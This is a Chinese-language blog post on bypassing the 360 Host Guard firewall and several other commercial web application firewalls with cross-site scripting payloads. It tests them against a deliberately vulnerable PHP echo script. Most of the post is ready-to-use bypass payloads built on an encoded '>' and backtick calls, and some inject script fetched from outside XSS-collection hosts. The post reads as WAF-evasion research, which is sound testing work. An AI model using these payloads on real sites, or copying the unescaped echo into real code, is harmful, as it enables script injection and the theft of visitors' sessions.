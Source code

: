 ### 前言
- - -
360主机卫士是360旗下的服务器安全软件，为站长免费提供网站后门检测、木马查杀，网站补丁、漏洞防护等服务...

![1](https://ae01.alicdn.com/kf/Uad2732ca0c4943088ca09f550ff5caccL.png)

(虽然软件几年前就停止更新，官网挂了，但是从当时的评论上看软件还是很不错的。)

### 环境
- - -
火狐

360主机卫士Apache版

phpStudy2016(PHP-5.4.45+Apache)

测试代码
```
<?php   
  $input = @$_REQUEST["xss"];
  echo "<div>".$input."</div>"
?>
```
### 测试
- - -
习惯性的直接上 Burp 用平时收集的 payload fuzz 一遍，结果不怎么理想，能过的很鸡肋...然后我就去网上找资料，找到了一篇文章[xss加入某些字符即可过大多数waf的思路及一些思考](https://mp.weixin.qq.com/s/CCc12FWWJMRP4V6x0XXaoA)根据里面的思路可以绕过。

`<svg onload>` 拦截

`<svg > onload>`不拦截

具体绕过就是先把 `>` html实体编码

![2](https://ae01.alicdn.com/kf/Ue6dc8da4a8ac4497a96828e039c729574.png)

将 `&#62` URL编码

![3](https://ae01.alicdn.com/kf/U143681d1e9b64df0b67ebab674991c93N.png)

大部分 `xss payload` 加上 `%26%2362` 即可绕过，但是类似 alert(1) 括号可能会被拦截 可以用反引号替换
```
<svg %26%2362 onload=alert`1`>
```
![4](https://ae01.alicdn.com/kf/U3529497cee1f48e7b86ccedd924109a2B.png)

给几个测试绕过的 `payload`
```
<style  %26%2362 onload=alert`1`>
<img %26%2362 src=1  onerror=alert`1`>
<audio %26%2362 src=x  onerror=alert`1`>
<svg %26%2362 onload=appendChild(createElement('script')).src='//xs.ax/HfcB'>
```

该文章在最后说明此方法可以绕过多款waf，接下来我们来测试。

`云锁`：

![5.png](https://ae01.alicdn.com/kf/Ua781c4541fce4d9287ddc4218025ee49L.png)

绕过
```
<svg %26%2362 onload=alert`1`>
```

`奇安信CDN`：

拦截
```
<svg %26%2362 onload=alert`1`>
```
![7.png](https://ae01.alicdn.com/kf/Ua119486efcd94f83881e7135b9aa13daX.png)

绕过方法(使用HTML5新标签)

`<select autofocus onfocus=[2].find(alert)>`

`安全狗`：

绕过
![8.png](https://ae01.alicdn.com/kf/U75a996f4667944d2895372a9eb417a07U.png)

`阿里云`：

拦截
![9.png](https://ae01.alicdn.com/kf/U59c6226bba53437a9ee15b9d3e5f70e1w.png)

绕过方法(这个百度下就有)
```
<img src=# onerror=alert`2`>
<input onfocus="document.body.appendChild(createElement('script')).src='//xss.xx/B6Bb'" autofocus>
```

![10.png](https://ae01.alicdn.com/kf/U3d07d821e85a4a028b8eb360e7c78a04X.png)


